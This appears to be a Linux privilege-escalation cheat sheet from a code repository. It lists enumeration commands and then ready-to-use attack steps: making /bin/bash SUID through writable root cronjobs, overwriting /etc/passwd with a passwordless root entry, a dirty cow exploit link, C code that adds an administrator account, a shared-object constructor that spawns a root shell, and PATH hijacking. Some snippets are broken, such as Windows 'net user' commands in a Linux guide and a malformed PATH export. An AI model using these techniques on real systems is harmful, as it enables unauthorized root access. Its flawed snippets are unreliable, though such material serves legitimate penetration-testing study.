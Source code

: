 ## Good Reads
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://github.com/janithmalinga/PayloadsAllTheThings
https://book.hacktricks.xyz/linux-unix/privilege-escalation
```
## Manual Enumeration

## Enumerate User Info

### Logged in user
```
id
whoami
pwd
```

### Find OS version
```
cat /etc/*-release
uname -a
lsb_release -a
```

### Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
### curently running processes
```
ps aux
```
### What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Enumerate Network

### Find IP and associated IPs
```
ifconfig
ip a
```

### Open Ports
```
netstat -ano
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## Automated Enumeration
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

### User editable cronjobs
```
crontab -l
```

### Application based cron jobs
```
ls -all /etc/cron.d
```
### if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

### Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

### Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / -type f -perm -04000 -ls 2> /dev/null
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

### If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```

### If you found a shared object, create this c file to inject
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

## Environment variable injection

### If you find a file without full path and having SIUD bit set, create this c file,
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

### Set environment path to /tmp
```
export $PATH=/tmp:$PATH
```
